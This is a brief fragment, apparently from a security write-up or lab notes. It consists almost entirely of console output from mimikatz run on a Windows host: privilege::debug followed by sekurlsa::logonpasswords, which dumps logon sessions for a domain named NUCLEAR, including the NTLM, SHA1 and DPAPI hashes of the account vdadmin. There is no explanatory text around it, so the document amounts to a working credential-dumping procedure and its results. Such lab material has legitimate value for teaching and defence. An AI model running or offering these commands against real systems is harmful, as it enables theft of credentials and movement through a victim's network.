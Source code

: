 Result:
```
C:\Users\Public>.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 1/19/2021 11:31:12 AM
SID               : S-1-5-17
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 100995 (00000000:00018a83)
Session           : Service from 0
User Name         : vdadmin
Domain            : NUCLEAR
Logon Server      : NUCLEAR-DC
Logon Time        : 1/19/2021 11:31:12 AM
SID               : S-1-5-21-2753455963-2528838614-3718188604-1103
        msv :
         [00000003] Primary
         * Username : vdadmin
         * Domain   : NUCLEAR
         * NTLM     : 1fbba53e43f63e4b29fb31376bd33fda
         * SHA1     : 1ffa5bf359e7e54b5c231eba5a4fa94cef315e99
         * DPAPI    : 2e24b29abdefaff8329427c102e7fad5
        tspkg :
        wdigest :
         * Username : vdadmin
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : vdadmin
         * Domain   : NUCLEAR.SITE
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : VDI-SERVER$
Domain            : NUCLEAR
Logon Server      : (null)
```